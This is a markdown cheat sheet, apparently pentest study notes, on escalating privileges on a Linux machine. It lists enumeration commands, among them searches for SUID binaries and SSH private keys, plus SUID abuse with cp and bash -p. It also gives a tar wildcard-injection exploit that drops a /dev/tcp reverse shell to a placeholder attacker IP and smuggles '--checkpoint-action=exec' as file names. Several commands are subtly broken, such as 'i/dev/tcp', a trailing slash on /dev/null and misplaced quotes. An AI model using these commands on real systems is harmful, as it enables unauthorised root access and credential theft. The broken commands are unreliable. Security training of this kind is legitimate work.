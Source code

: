 ```yaml
---
title: 5 – Privesc Linux
summary: Privilege Escalation step – a note for elevating privileges on a Linux machine.
description: Privilege Escalation step – a note for elevating privileges on a Linux machine.
---
```


# Privesc Checklist

---

 > 
 > **<font color=red>sudo -l</font>**</br>
 > Display commands allowed to run with root privileges.

 > 
 > **<font color=red>history</font>**</br>
 > Show shell history.

 > 
 > **<font color=red>env</font>**</br>
 > Show environment variables.

 > 
 > **<font color=red>find / -perm -u=s -type f 2> /dev/null</font>**</br>
 > Search for commands with SUID enabled (then check [https://gtfobins.github.io/](https://gtfobins.github.io/)) 

 > 
 > **<font color=red>getcap -r / 2>/dev/null</font>**</br>
 > Search for commands with capabilities (then check [https://gtfobins.github.io/](https://gtfobins.github.io/)) 

 > 
 > **<font color=red>find / -writable 2>/dev/null</font>**</br>
 > Search for writable folders.

 > 
 > **<font color=red>find / -name id_rsa 2> /dev/null/</font>**</br>
 > Search for SSH private keys.

 > 
 > **<font color=red>cat /etc/crontab</font>**</br>
 > Looking for automated scripts.

# Others Suggestions

---

* Determining the kernel of the machine and search for kernel exploitation (such as Dirtyc0w).
* Misconfigured file and directory permissions.
* pspy (process snooping): https://github.com/DominicBreuker/pspy 

# Automated Scripts

---

### LINPEAS

https://github.com/carlospolop/PEASS-ng/releases

 > 
 > **<font color=red>./linpeas.sh</font>**

---

### LINEUM

https://github.com/rebootuser/LinEnum

 > 
 > **<font color=red>./LinEnum.sh</font>**

---

### METASPLOIT


 > 
 > **<font color=red>use</font> <font color=lightblue>post/multi/recon/local_exploit_suggester</font>**</br>
 > Check exploits for privilege escalation.

# SUID Examples

---

### CP

 > 
 > **<font color=red>cp /root/</font> /home/myUser/**</br>
 > **<font color=red>cd</font> /home/myUser/root**</br>
 > Access root content.

---

### BASH

 > 
 > **<font color=red>bash -p</font>**</br>
 > Get a root shell.

# Wildcard Exploitation

---

### Resource

[https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/)

### Example

Script running as root:

 > 
 > **tar cf /home/myUser/backups/backup.tgz \***

Exploit:

 > 
 > **<font color=red>echo "bash -i >& i/dev/tcp/</font>\[ATTACKER IP\]<font color=red>/</font>\[ATTACKER PORT\] <font color=red>0>&1" > </font>revshell.sh**</br>
 > **<font color=red>touch "</font>/home/myUser/backups/<font color=red>--checkpoint-action=exec=</font>sh revshell.sh<font color=red>"</font>**</br>
 > **<font color=red>touch "</font>/home/myUser/<font color=red>"--checkpoint=1"</font>**</br>
